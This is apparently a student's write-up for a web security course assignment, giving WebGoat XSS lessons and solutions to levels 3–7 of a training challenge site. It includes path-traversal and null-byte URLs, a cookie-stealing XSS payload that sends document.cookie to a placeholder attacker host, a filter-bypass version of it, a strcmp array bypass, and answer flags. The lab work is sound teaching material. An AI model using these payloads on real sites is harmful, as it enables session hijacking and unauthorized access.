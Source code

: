 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following three exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		
		* Nearly the same approach as Level 5 but this time greater than and less than symbols are getting filtered. There is no recursive filtering though.
		* We can therefore use a snippet like this for the searchterm: ``` <scr<script>ipt>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</scr</script>ipt> ```
		* See also: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)#Example_5:_Bypassing_non-recursive_filtering
		* Solution: NDY3YjMwZjRl

	* Level 7

		* There is a bug in the strcmp funtion which cannot handle arrays as input and therefore returns 0 which gives you the solution. Inspect the html source and change the name of the input field "pass" to "pass[]".
		* See also: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf
		* Solution: YjU1NWY4MzBi

		






	